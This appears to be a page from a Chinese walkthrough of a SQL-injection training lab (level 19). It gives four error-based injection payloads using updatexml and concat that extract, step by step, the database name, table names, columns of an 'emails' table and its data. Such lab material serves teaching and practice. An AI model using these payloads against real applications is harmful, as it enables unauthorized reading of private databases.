

# 第十九关
这一关和上面做法相同，只是注入点的变化

判断库名： 'and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1),1,1)-- qwe

判断表名： 'and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security'limit 0,1),0x7e),1),1,1)-- qwe

判断列名： 'and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),0x7e),1),1,1)-- qwe

判断数据： 'and updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1),1,1)-- qwe